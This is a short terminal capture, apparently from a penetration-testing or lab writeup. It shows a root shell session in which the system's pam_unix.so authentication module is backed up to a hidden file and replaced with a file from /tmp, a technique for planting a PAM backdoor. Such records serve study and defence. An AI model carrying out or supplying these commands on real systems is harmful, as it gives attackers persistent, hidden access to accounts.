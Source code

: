 ![img](img/image_20241033-013314.png)

```plaintext
bash: cannot set terminal process group (403): Inappropriate ioctl for device
bash: no job control in this shell
root@debian:/#
cp /lib/x86_64-linux-gnu/security/pam_unix.so /opt/.pam_unix.so.bak


<inux-gnu/security/pam_unix.so /opt/.pam_unix.so.bak
root@debian:/#
cp /tmp/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so

cp /tmp/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so
root@debian:/#
exit

exit
exit
```
